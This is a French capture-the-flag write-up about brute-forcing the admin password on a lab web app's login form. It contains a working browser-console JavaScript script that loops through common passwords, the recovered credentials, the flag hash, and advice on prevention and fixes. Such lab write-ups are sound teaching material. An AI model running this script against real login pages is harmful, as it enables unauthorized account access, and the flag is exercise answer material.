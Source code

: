 # Exploitation par Brute-Force sur Formulaire de Connexion

## 1. Introduction
Dans cette exploitation, j'ai utilisé une **attaque par brute-force** pour accéder à une zone protégée via le formulaire de connexion de l'application. En testant une liste de mots de passe communs, j'ai pu trouver le mot de passe correct et obtenir le **flag**.

## 2. Découverte de la faille
En explorant la page de connexion :
```bash
http://10.211.55.2/index.php?page=signin
```

J'ai remarqué qu'il n'y avait pas de mécanisme de protection contre les tentatives répétées de connexion (pas de captcha, pas de limitation de tentatives, ni de délai). Cela permet de tester plusieurs mots de passe sans restriction.

## 3. Exploitation par Brute-Force
J'ai utilisé le script suivant dans la console du navigateur pour automatiser le test de mots de passe communs :

```js
// Liste de mots de passe communs à tester
const passwords = [
    'admin', 'password', '123456', 'shadow', 'root',
    'pass', 'letmein', 'qwerty', 'test', 'admin123'
];

async function tryLogin(password) {
    try {
        const response = await fetch(`index.php?page=signin&username=admin&password=${password}&Login=Login`);
        const text = await response.text();
        
        // Vérifie si la réponse ne contient pas l'image d'erreur
        if (!text.includes('WrongAnswer.gif')) {
            console.log(`✅ Succès! Mot de passe trouvé: ${password}`);
            return true;
        }
        console.log(`❌ Échec avec: ${password}`);
        return false;
    } catch (error) {
        console.log(`⚠️ Erreur avec: ${password}`);
        return false;
    }
}

// Fonction pour tester tous les mots de passe avec un délai
async function testPasswords() {
    for (const password of passwords) {
        await new Promise(resolve => setTimeout(resolve, 500)); // Délai de 500ms entre chaque tentative
        if (await tryLogin(password)) {
            break;
        }
    }
}

// Lancer les tests
testPasswords();
```

### Résultat de l'attaque

Le script a trouvé le mot de passe suivant :
```bash
admin / shadow
```

![1](images/1.png)

## 4. Obtention du Flag

En utilisant les identifiants trouvés, j'ai accédé à l'interface protégée et obtenu le flag :
```bash
B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2
```

![2](images/2.png)

## 5. Impact de la faille

Cette faille permet à un attaquant de :

- Accéder à des zones protégées en utilisant un mot de passe faible et commun.
- Contourner l'authentification sans avoir besoin de compétences avancées.
- Récupérer des informations sensibles comme le flag ou d'autres données confidentielles.

## 6. Comment prévenir cette faille

Pour éviter cette vulnérabilité :

- Implémenter une limitation de tentatives : Bloquer l'utilisateur après un certain nombre de tentatives infructueuses.
- Utiliser un CAPTCHA pour éviter l'automatisation des tentatives de connexion.
- Imposer des règles de complexité des mots de passe pour éviter les mots de passe communs (minimum 8 caractères avec des majuscules, minuscules, chiffres et symboles).
- Activer l'authentification à deux facteurs (2FA) pour une sécurité renforcée.

## 7. Comment corriger la faille

Pour corriger cette faille :

- Ajouter un délai après chaque tentative de connexion échouée.
- Enregistrer les tentatives de connexion dans un journal pour détecter les attaques par brute-force.
- Utiliser bcrypt pour le hachage des mots de passe afin de ralentir les attaques.

## 8. Conclusion

J'ai exploité une faille due à l'absence de protection contre les tentatives répétées de connexion, combinée à l'utilisation d'un mot de passe faible et commun. Cela démontre l'importance de :

- Protéger les formulaires de connexion avec des mécanismes anti-brute-force.
- Utiliser des mots de passe sécurisés et complexes.
- Mettre en place une surveillance active pour détecter et prévenir les attaques.